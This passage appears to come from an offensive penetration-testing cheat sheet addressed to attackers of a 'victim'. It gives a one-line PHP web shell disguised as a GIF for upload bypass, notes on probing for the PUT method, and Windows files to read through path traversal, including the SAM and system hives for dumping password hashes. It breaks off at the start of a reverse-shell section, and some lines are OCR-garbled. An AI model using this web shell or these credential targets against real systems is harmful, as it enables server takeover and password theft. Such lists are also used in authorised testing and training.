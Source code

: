 ```
```

Add:   

```php
GIF89a;
\<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

### Options
Use options to check for upload method.

upload function. Is put allowed?

## Interesting files

### Windows
c:\windows\system32\eula.txt  
cl\windows\system32\license.rtf  

c:\WINDOWS\win.ini  
c:\WINNT\win.ini

Password hash?  
c:\WINDOWS\Repair\SAM    
c:\WINDOWS\Repair\system  
pwdump SAM system  

c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini

https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/

### Linux
https://www.gracefulsecurity.com/path-traversal-cheat-sheet-linux/

## Reverse shell

**1. Check which port is allowed for reverse shell** 

sometime certain out going traffic is blocked by your victim   
